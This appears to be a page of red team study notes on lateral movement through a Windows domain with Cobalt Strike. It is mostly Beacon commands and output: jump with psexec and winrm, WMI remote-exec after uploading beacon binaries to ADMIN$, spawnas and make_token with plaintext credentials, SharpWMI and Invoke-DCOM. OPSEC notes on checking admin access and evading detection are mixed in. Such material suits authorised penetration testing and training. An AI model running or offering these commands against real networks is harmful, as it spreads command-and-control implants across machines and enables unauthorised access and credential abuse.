 ```yaml
---
title: Lateral Movement
category: 00 - Red Team
order: 7
---
```


Moving laterally between computers in a domain is important for accessing sensitive information/materials, and obtaining new credentials. 

In this section we are goingto see how do a lateral movement with Cobalt Strike

# Execution commands

Cobalt Strike provides three strategies for executing Beacons, code or commands on remote targets.

To execute commands remotely we need admin privileges.

> **OPSEC Note**: A common way of testing local admin access on a target is to list the C$ directory.
>
>`beacon> ls \\dc01\c$`

## Jump 

`jump` command will spawn a beacon payload on the remote target, and if we use a P2P listener, will connect automatically.

Usage of `jump` command:
```
jump [method] [target] [listener]
```

We can use different methods:

```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

## Remote-exec

`remote-exec` command will simply execute commands on a remote target.

hey require more manual work to manage the payload, but do offer a wider degree of control over what gets executed on the target. You also need to connect to P2P Beacons manually using `connect` or `link`.

```
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```

## Powershell and execute-assembly

We can specify the target in `powershell` and `execute-assembly` commands.

```
baecon> execute-assembly /path/payload.exe -computername=dc01
```

```
baecon> powershell Get-ChildItem -computername=dc01
```

## Spawn


Notice that due to problems of **CoInitializeSecurity** COM object, a different security context for example another user can not be used in the same beacon process.

To that reason we need to spawn another beacon.

`spawn` and `spawnas` starts a new session with the provided credentials. 

```
beacon> spawn
```
The `spawnas` command will spawn a new process using plaintext credentials and will inject a beacon payload into it.

```
beacon> spawnas CORP\user Passw0rd! smb-p2p-payload
[+] established link to child beacon: 10.10.10.10
```

> **Note**: A common mistake is to attempt this from a directory where te user does not have read access. Change directory to `C:\` and try it again.

# PowerShell Remoting

The `winrm` and `winrm64` methods can be used to use powershell remoting.

WinRM will return a **high integrity beacon running as the user** with which are going to be interacted.

```
# 64-bit target
beacon> jump winrm64 dc01 [P2P-Listener]

# 32-bit target
beacon> jump winrm dc01 [P2P-Listener]
```

> **Note**: We can use `Get-WmiObject` to determine the arhitecture of the remote system.


# PsExec

The `psexec` and `psexec64` commands, first a service binary is uploaded to the target system, then a starting windows service is created to execute that binary.

`psexec_psh` doesn't copy the binary to the target, but instead executes a PowerShell one-liner (always in 32-bit).

PsExec will return a beacon running by **SYSTEM**.

```
beacon> jump psexec64 dc01 [p2p-listener]
```

# Windows Management Instrumentation (WMI)

The `wmi` `remote-exec` method uses WMI's *process call create* to execute any command we specify on the target.

The most straight forward means of using this to upload a payload to the target system and use WMI to execute it.

```
beacon> cd \\dc01\ADMIN$
beacon> upload C:\p2p-smb-beacon.exe
beacon> remote-exec wmi dc01 C:\Windows\beacon.exe
```

After executing the beacon we will neeed to connect to it.

```
beacon> link dc01 \\dc01\pipe\[namepipe]
```

## The Curious Case of CoInitializeSecurity

If our beacon called CoInitializeSecurity in the context of "UserA" then the future BOFs such as WMI may not be able to inherit a different security context "UserB".

```
beacon> make_token CORP\userb password
[+] Impersonated CORP\usera

beacon> remote-exec wmi web.corp.local C:\Windows\smb_x64.exe
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to web.dev.cyberbotic.io: 5
```

Our WMI execution needs to come from a different process. This can be achieved with commands such as `spawn` and `spawnas` or even `SharpWMI`.

```
beacon> execute-assembly C:\Tools\SharpWMI.exe action=exec computername=web.corp.local command="C:\Windows\smb_x64.exe"
```

# Distributed Component Object Model (DCOM)

Beacon has no built-in capabilities to interact over DCOM, so we can use `Invoke-DCOM`.

* [https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)


```
beacon> powershell-import .\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName dc01 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
beacon> link dc01
```

> **OPSEC Note**: `DCOM` is more complicated to detect, since each method works in a different way. If `MMC20.Application` method spawns a process, the spawned process will be a child of `mmc.exe`.
>
> `ProcessId: 952`
> `Image: C:\Windows\beacon-smb.exe`
> `ParentImage: C:\Windows\System32\mmc.exe`